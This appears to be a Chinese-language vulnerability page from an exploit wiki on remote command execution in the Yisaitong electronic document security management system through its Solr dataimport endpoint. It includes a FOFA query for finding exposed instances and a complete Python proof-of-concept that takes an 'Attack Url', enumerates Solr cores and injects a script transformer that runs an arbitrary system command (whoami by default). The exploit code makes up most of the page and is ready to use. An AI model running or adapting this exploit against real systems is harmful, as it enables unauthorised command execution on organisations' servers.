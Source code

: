 # 亿赛通 电子文档安全管理系统 dataimport 远程命令执行漏洞

## 漏洞描述

亿赛通 电子文档安全管理系统 dataimport 存在远程命令执行漏洞，攻击者通过构造特定的请求可执行任意命令

## 漏洞影响

> [!NOTE]
>
> 亿赛通 电子文档安全管理系统

## FOFA

> [!NOTE]
>
> title="电子文档安全管理系统"

## 漏洞复现

登录页面如下

![image-20210601153910931](http://wikioss.peiqi.tech/vuln/image-20210601153910931.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

先获取 core name

访问路径

```
/solr/admin/cores
```

![image-20210601154012250](http://wikioss.peiqi.tech/vuln/image-20210601154012250.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用POC执行whoami

![image-20210601154407364](http://wikioss.peiqi.tech/vuln/image-20210601154407364.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 亿赛通 电子文档安全管理系统 dataimport 远程命令执行漏洞            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/solr/admin/cores"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/solr/admin/cores.... \033[0m".format(target_url))
        if 'responseHeader' in response.text and response.status_code == 200:
            result = re.search(
                r'<str name="name">([\s\S]*?)</str><str name="instanceDir">', response.text, re.I)
            core_name = result.group(1)
            print("\033[36m[o] 获取core_name : {} \033[0m".format(core_name))
            POC_2(target_url, core_name)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, core_name):
    cmd = "whoami"
    vuln_url = target_url + "/solr/{}/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22{}%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20".format(core_name, cmd)
    files = {
        'stream.body': '''<?xml version="1.0" encoding="UTF-8"?>
        <RDF>
        <item/>
        </RDF>'''
    }
    try:
        print("\033[36m[o] 正在执行 whoami ... \033[0m".format(target_url))
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, files=files, verify=False, timeout=5)
        cmd_response = re.search(
                r'documents"><lst><arr name="title"><str>([\s\S]*?)</str></arr></lst>', response.text, re.I)
        cmd_response = cmd_response.group(1)
        if response.status_code == 200 and cmd_response:
            print("\033[36m[o] 命令响应为:\n{} \033[0m".format(cmd_response))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

